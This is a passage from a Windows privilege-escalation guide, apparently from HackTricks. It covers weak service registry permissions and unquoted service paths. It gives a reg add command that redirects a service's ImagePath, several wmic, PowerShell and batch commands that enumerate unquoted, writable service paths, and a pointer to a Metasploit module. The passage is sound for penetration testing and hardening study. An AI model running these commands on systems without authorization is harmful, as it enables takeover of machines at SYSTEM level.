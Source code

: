 Check if **Authenticated Users** or **NT AUTHORITY\INTERACTIVE** have FullControl. In that case you can change the binary that is going to be executed by the service.

To change the Path of the binary executed:

```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new
```

### Unquoted Service Path

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#unquoted-service-paths" %}

If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.

For example, for the path _C:\Program Files\Some Folder\Service.exe_ Windows will try to execute:

```
C:\Program.exe 
C:\Program Files\Some.exe 
C:\Program Files\Some Folder\Service.exe
```

To list all unquoted service paths (minus built-in Windows services)

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """ #Not only auto services
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

#Other way
for /f "tokens=2" %%n in ('sc query state^= all^| findstr SERVICE_NAME') do (
	for /f "delims=: tokens=1*" %%r in ('sc qc "%%~n" ^| findstr BINARY_PATH_NAME ^| findstr /i /v /l /c:"c:\windows\system32" ^| findstr /v /c:""""') do (
		echo %%~s | findstr /r /c:"[a-Z][ ][a-Z]" >nul 2>&1 && (echo %%n && echo %%~s && icacls %%s | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%") && echo.
	)
)
```

**You can detect and exploit** this vulnerability with metasploit: _exploit/windows/local/trusted\_service\_path_\
You can manually create a service binary with metasploit:
